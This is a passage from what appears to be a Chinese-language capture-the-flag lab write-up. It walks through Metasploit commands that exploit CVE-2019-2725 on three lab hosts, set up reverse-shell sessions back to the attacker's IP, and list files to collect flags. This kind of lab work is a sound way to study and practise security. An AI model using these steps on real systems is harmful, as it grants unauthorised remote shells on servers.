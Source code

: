 ![alt text](./image/image-28.png)

出现404错误，说明网络层联通，但应用层请求了一个不存在的地址。

### 攻破靶标2-4，并获得flag

我们已知拓扑中三台主机均存在cve-2019-2725漏洞，因此选择利用它。

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP （一共需要设置三次）
set lhost 192.168.56.108
# 分别 run（一共要run三次）
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```
